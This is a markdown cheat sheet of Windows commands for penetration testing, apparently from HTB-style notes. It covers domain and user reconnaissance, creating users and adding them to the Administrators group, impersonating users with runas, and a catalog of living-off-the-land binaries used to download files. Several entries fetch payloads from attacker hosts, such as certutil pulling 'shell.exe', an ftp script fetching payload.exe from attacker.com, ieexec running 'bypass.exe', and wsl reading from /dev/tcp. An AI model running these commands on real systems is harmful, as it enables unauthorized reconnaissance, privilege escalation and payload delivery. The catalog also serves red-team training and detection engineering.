 ```yaml
---
title: Basic commands
description: Usefull commands to be used both on Powershell and CMD prompts
position: 3
---
```


## Recon

### Domain info

```powershell
echo %USERDOMAIN% #Get domain name
echo %USERDNSDOMAIN% #Get domain name
echo %logonserver% #Get name of the domain controller
set logonserver #Get name of the domain controller
set log #Get name of the domain controller
net groups /domain #List of domain groups
net group "domain computers" /domain #List of PCs connected to the domain
net group "{{ domain-group group name }}" /domain #List of PCs connected to the domain
net view /domain #Lis of PCs of the domain
nltest /dclist:<DOMAIN> #List domain controllers
net group "Domain Controllers" /domain #List PC accounts of domains controllers
net group "Domain Admins" /domain #List users with domain admin privileges
net localgroup administrators /domain #List uses that belongs to the administrators group inside the domain (the grup "Domain Admins" is included here)
net user /domain #List all users of the domain
net user {{ username username }} /domain #Get information about that user
net accounts /domain #Password and lockout policy
nltest /domain_trust #Mapping of the trust relationships.
gpresult /V # Get current policy applied
```

### Users

```powershell
whoami /all #All info about me, take a look at the enabled tokens
whoami /priv #Show only privileges
net users #All users
dir /b /ad "C:\Users"
net user %username% #Info about a user (me)
net accounts #Information about password requirements
qwinsta #Anyone else logged in?
net user /add {{ username username }} {{ password password }} #Create user

#Lauch new cmd.exe with new creds (to impersonate in network) - The password will be prompted
runas /netonly /user {{ domain htb.local }}\{{ username username }} "cmd.exe"

#Check current logon session as administrator using logonsessions from sysinternals
logonsessions.exe
logonsessions64.exe
```

### Groups

```powershell
#Local
net localgroup #All available groups
net localgroup Administrators #Info about a group (admins)
net localgroup administrators {{ username username }} /add #Add user to administrators

#Domain
net group /domain #Info about domain groups
net group /domain "{{ domain-group Group Name }}" #Users that belongs to the group
```

### Shares

```powershell
net view #Get a list of computers
net view /all /domain {{ domain htb.local }} #Shares on the domains
net view \\computer /ALL #List shares of a computer
net use x: \\computer\share #Mount the share locally
net share #Check current shares
```

## LOLBins

### Download files

- `Bitsadmin.exe`:

```powershell
bitsadmin /create 1 bitsadmin /addfile 1 {{ url https://live.sysinternals.com/autoruns.exe }} {{ output c:\data\playfolder\autoruns.exe }} bitsadmin /RESUME 1 bitsadmin /complete 1
```

- `CertReq.exe`:

```powershell
CertReq -Post -config {{ url https://example.org/ }} c:\windows\win.ini {{ output output.txt }}
```

- `Certutil.exe`:

```powershell
certutil.exe -urlcache -split -f "{{ url http://10.10.14.13:8000/shell.exe }}" {{ output s.exe }}
```

- `Desktopimgdownldr.exe`:

```powershell
set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

- `Diantz.exe`:

```powershell
diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
```

- `Esentutl.exe`:

```powershell
esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
```

- `Expand.exe`:

```powershell
expand \\webdav\folder\file.bat c:\ADS\file.bat
```

- `Extrac32.exe`:

```powershell
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```

- `Findstr.exe`:

```powershell
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
```

- `Ftp.exe`:

```powershell
cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
```

- `GfxDownloadWrapper.exe`:

```powershell
C:\Windows\System32\DriverStore\FileRepository\igdlh64.inf_amd64_[0-9]+\GfxDownloadWrapper.exe "URL" "DESTINATION FILE"
```

- `Hh.exe`:

```powershell
HH.exe http://some.url/script.ps1
```

- `Ieexec.exe`:

```powershell
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

- `Makecab.exe`:

```powershell
makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
```

- `MpCmdRun.exe`:

```powershell
MpCmdRun.exe -DownloadFile -url <URL> -path <path> //Windows Defender executable
```

- `Replace.exe`:

```powershell
replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
```

- `Excel.exe`:

```powershell
Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
```

- `Powerpnt.exe`:

```powershell
Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```

- `Squirrel.exe`:

```powershell
squirrel.exe --download [url to package]
```

- `Update.exe`:

```powershell
Update.exe --download [url to package]
```

- `Winword.exe`:

```powershell
winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```

- `Wsl.exe`:

```powershell
wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```
